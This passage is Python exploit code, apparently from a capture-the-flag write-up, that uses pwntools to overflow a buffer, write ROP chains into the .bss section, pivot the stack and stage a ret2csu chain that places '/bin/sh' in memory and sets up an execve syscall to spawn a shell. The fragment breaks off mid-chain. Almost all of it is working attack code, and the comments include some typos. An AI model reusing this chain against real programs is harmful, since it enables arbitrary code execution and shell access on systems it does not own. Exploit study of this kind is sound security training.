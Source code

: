 ```python
#calling read() to write the 1st ROP chain ion the.bss section
payload += p64(poprdi)
payload += p64(0)
payload += p64(poprsi)
payload += p64(rw_section)
payload += p64(0xcafebabe)
payload += p64(elf.sym.read)
payload += p64(elf.sym.vuln)

r.sendline(payload)

#payload 1 on  .bss
#storing the string /bin/sh
buf = b"/bin/sh\0"
#ret2csu
buf += p64(pops)
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(1) #r12 -> RDI
buf += p64(elf.got.read) #r13 = > rsi
buf += p64(0x3b) #r14 => RDX
buf += p64(fini_ptr) #r15

buf += p64(ret2csu_gdg) #
buf += p64(0xcafebabe) # dummy add rsp + 0x8
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(0) #r12
buf += p64(0) #r13 
buf += p64(0) #r14 
buf += p64(0) #r15
buf += p64(elf.sym.read) #syscall write()
buf += p64(poprbp)
buf += p64(rw_section+0x100) #second ROP chain
buf += p64(leaveret) #pivot

sleep(1)
r.sendline(buf)

# 2 overflow
payload = b"A"*0x48
#calling read() to write the 2nd ROP chain on the.bss section
payload += p64(poprdi)
payload += p64(0)
payload += p64(poprsi)
payload += p64(rw_section+0x100)
payload += p64(0xcafebabe)
payload += p64(elf.sym.read)
payload += p64(elf.sym.vuln)

sleep(1)
r.sendline(payload)

# 2payload 2 on .bss
buf = b"YYYYYYYY" #padding
#ret2csu
buf += p64(pops)
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(rw_section) #r12 -> RDI /bin/sh
buf += p64(0) #r13 = > rsi 0
buf += p64(0) #r14 => RDX
buf += p64(fini_ptr) #r15
```
